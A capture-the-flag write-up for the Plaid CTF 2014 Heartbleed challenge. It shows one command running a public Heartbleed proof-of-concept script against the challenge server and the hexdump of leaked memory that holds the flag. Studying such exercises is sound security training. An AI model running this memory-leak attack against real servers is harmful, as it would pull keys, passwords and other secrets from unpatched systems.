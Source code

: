 # Plaid CTF 2014: Heartbleed

**Category:** Misc
**Points:** 10
**Description:**

> Our hearts are bleeding. But instead of bleeding password bytes, they're bleeding flags. Please recover our flags so we don't bleed to death before we can update to 1.0.1-g. Site is up at <https://54.82.147.138:45373/>.
>
> (The flag format is `flag{...}`.)

## Write-up

The challenge name makes it pretty clear that the server is vulnerable to the [the Heartbleed bug](http://heartbleed.com/). Let’s use the famous [Heartbleed proof of concept script](heartbleed.py) and see what kind of data the server leaks:

```bash
$ ./heartbleed.py -p 45373 54.82.147.138
Connecting...
Sending Client Hello...
Waiting for Server Hello...
 ... received message: type = 22, ver = 0302, length = 66
 ... received message: type = 22, ver = 0302, length = 837
 ... received message: type = 22, ver = 0302, length = 331
 ... received message: type = 22, ver = 0302, length = 4
Sending heartbeat request...
 ... received message: type = 24, ver = 0302, length = 16384
Received heartbeat response:
	0000: 02 40 00 66 6C 61 67 7B 68 65 79 5F 67 75 69 73  .@.flag{hey_guis
	0010: 65 5F 77 65 5F 6D 61 64 65 5F 61 5F 68 65 61 72  e_we_made_a_hear
	0020: 74 62 6C 65 65 64 7D 00 66 6C 61 67 7B 68 65 79  tbleed}.flag{hey
	0030: 5F 67 75 69 73 65 5F 77 65 5F 6D 61 64 65 5F 61  _guise_we_made_a
	0040: 5F 68 65 61 72 74 62 6C 65 65 64 7D 00 66 6C 61  _heartbleed}.fla
	0050: 67 7B 68 65 79 5F 67 75 69 73 65 5F 77 65 5F 6D  g{hey_guise_we_m
	0060: 61 64 65 5F 61 5F 68 65 61 72 74 62 6C 65 65 64  ade_a_heartbleed
	0070: 7D 00 66 6C 61 67 7B 68 65 79 5F 67 75 69 73 65  }.flag{hey_guise
	0080: 5F 77 65 5F 6D 61 64 65 5F 61 5F 68 65 61 72 74  _we_made_a_heart
	0090: 62 6C 65 65 64 7D 00 66 6C 61 67 7B 68 65 79 5F  bleed}.flag{hey_
	00a0: 67 75 69 73 65 5F 77 65 5F 6D 61 64 65 5F 61 5F  guise_we_made_a_
	…
	3fc0: 66 6C 61 67 7B 68 65 79 5F 67 75 69 73 65 5F 77  flag{hey_guise_w
	3fd0: 65 5F 6D 61 64 65 5F 61 5F 68 65 61 72 74 62 6C  e_made_a_heartbl
	3fe0: 65 65 64 7D 00 66 6C 61 67 7B 68 65 79 5F 67 75  eed}.flag{hey_gu
	3ff0: 69 73 65 5F 77 65 5F 6D 61 64 65 5F 61 5F 68 65  ise_we_made_a_he

WARNING: server returned more data than it should; server is vulnerable!
```

The flag is `flag{hey_guise_we_made_a_heartbleed}`.

## Other write-ups and resources

* [Source code for this challenge, released after the CTF](https://github.com/pwning/plaidctf2014/tree/master/web/heartbleed)
* <https://github.com/hackerclub/writeups/blob/master/plaidctf-2014/Heartbleed/WRITEUP-pipecork.md>
